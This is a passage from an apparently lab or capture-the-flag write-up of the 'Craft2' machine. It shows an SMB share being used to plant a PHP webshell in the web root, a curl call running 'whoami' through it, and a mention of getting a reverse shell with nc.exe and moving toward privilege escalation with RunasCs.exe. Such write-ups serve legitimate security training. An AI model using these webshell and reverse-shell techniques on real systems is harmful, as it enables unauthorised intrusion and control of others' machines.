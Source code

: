 The WebApp one looked like the next stage. We can connect to it and view the files:

```
$ smbclient -U thecybergeek //192.168.197.188/WebApp        
Password for [WORKGROUP\thecybergeek]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  6 00:16:03 2022
  ..                                  D        0  Wed Apr  6 00:16:03 2022
  assets                              D        0  Wed Apr  6 00:16:03 2022
  css                                 D        0  Wed Apr  6 00:16:03 2022
  index.php                           A     9768  Tue Feb  1 00:21:52 2022
  js                                  D        0  Wed Apr  6 00:16:03 2022
  upload.php                          A      896  Mon Jan 31 23:23:02 2022
  uploads                             D        0  Wed Jul  5 23:57:54 2023
```

The previous machine Craft allowed us to upload webshells to the web directory, and it works here too:

```
smb: \> put cmd.php
putting file cmd.php as \cmd.php (0.1 kb/s) (average 0.1 kb/s)

$ curl http://192.168.197.188/cmd.php?cmd=whoami
craft2\apache
```

We can then easily get a reverse shell by downloading `nc.exe` onto the machine and executing it.&#x20;

<figure><img src="../../../.gitbook/assets/image (2027).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

This time, the `apache` user had no abusable privileges, and there was nothing much about the current user.

### RunasCs.exe -> Lateral Movement Fail

We still had `thecybergeek` password, and this is abusable using `RunasCs.exe`.&#x20;

